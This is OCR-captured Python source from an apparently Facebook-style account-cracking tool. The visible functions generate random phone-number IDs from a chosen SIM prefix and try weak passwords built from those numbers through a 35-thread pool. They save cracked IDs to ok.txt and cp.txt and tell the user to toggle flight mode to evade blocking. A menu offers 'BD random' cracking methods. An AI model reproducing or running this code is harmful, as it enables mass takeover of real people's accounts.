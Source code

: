 def random_number2():
	uid=[]
	os.system('clear')
	print(logo)
	print('[√] EXAMPLE :92318,92345,92323,92306.ETC')
	linex()
	kode = input('[+]\033[1;37m PUT YOUR SIM CODE : ')
	os.system('clear')
	print(logo)
	linex()
	print(' Example : 1000,5000,10000,****Etc')
	limit = int(input('[+] Putt Ypur Idz lemit :  '))
	for nmbr in range(limit):
		nmp = ''.join(random.choice(string.digits) for _ in range(7))
		uid.append(nmp)
	with ThreadPool(max_workers=35) as yaari:
		os.system('clear')
		print(logo)
		tl = str(len(uid))
		print(' Total Acounts : '+tl)
		print(' Selected Code : \x1b[1;92m'+kode)
		print('\x1b[1;91m If you no result use flight mode')
		linex()
		for guru in uid:
			uid = kode+guru
			pwx = [guru,kode+guru]
			yaari.submit(fcrack,uid,pwx,tl)
	linex()
	print('[✓] Crack process has been completed')
	print('[?] Idz saved in [ok.txt,cp.txt]')
	linex()
	input('Press Enter To Go Back To Menu')
	menu()
#____________
def bd():
	os.system('clear')
	print(logo)
	print('\x1b[1;97m[1] BD Randm Method\x1b[1;92m [1]')
	print('\x1b[1;97m[2] BD Randm Method \x1b[1;92m[2]')
	print('\x1b[1;97m[3] BD Randm Method \x1b[1;92m[3]')
	print('\x1b[1;91m[4] Go to main menu')
	linex()
	rifat=input('Select option :')
	if rifat =='1':
		bd1()
	if rifat =='2':
		bd2()
	if rifat =='3':
		bd3()
	if rifat =='4':
		menu()
	else:
		print(' Select option');menu()
